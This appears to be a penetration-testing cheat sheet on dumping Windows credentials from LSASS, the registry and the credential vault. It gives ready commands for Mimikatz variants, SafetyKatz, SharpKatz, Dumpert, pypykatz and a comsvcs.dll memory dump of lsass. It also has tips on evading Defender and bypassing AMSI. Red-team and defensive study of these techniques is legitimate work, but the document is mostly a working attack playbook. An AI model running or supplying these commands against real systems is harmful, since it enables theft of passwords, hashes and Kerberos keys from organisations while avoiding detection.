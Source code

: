 # Credentials Dumping

## LSASS

{% hint style="warning" %}
High chances of detection. Always use the Loader.exe to use these. Otherwise, it will be detected by the defender.
{% endhint %}

Use [impacket ](https://github.com/fortra/impacket)if you are using a Linux machine as an attacker machine. Instead of Mimikatz a obfuscated version called **Invoke-Mimi.ps1**(inside _Tools_ folder) can be used too.

Some of the credentials can be extracted without touching **LSASS**:

* SAM Hive (Registry) - Local Admins (Try to avoid)
* LSA Secrets/Security Hive (Registry) - Service Account Passwords, Domain Cached Credentials (Maybe Detected)
* DPAPI Protected Credentials (Disk) - Credentials Manager/Vault, Browser Cookies, Certificates, Azure Tokens (Best for secops)

### Kerberos encryption keys

The Kerberos SSP used by LSASS in order to provide different authentication methods.\
Therefore, it possible to dump Kerberos encryption keys using `sekurlsa::ekeys`.

<pre class="language-powershell"><code class="lang-powershell"><strong># Check tickets that can be dumpes
</strong>Rubeus.exe triage
<strong>
</strong><strong># Dump credentials on a local machine using Mimikatz.
</strong>Invoke-Mimikatz -Command '"sekurlsa::ekeys"' 

# Using SafetyKatz (Minidump of lsass and PELoader to run Mimikatz)
# Used evasive-keys to bypass ASMI and has been edited in the source code
SafetyKatz.exe "sekurlsa::evasive-keys" 

# Dump credentials Using SharpKatz (C# port of some of Mimikatz functionality).
SharpKatz.exe --Command ekeys

# Dump credentials using Dumpert (Direct System Calls and API unhooking)
rundll32.exe C:\Dumpert\Outflank-Dumpert.dll,Dump

# Using pypykatz (Mimikatz functionality in Python)
pypykatz.exe live lsa

# Using comsvcs.dll
tasklist /FI "IMAGENAME eq lsass.exe"
rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump
&#x3C;lsass process ID> C:\Users\Public\lsass.dmp full 
</code></pre>

### Logon Passwords

This usually shows recently logged on user and computer credentials.

```powershell
Invoke-Mimikatz -Command '"sekurlsa::logonpasswords"' 
```

## Vault

Enumerates vault credentials of scheduled tasks.

```powershell
Invoke-Mimi -Command '"token::elevate" "vault::cred /patch"'
```
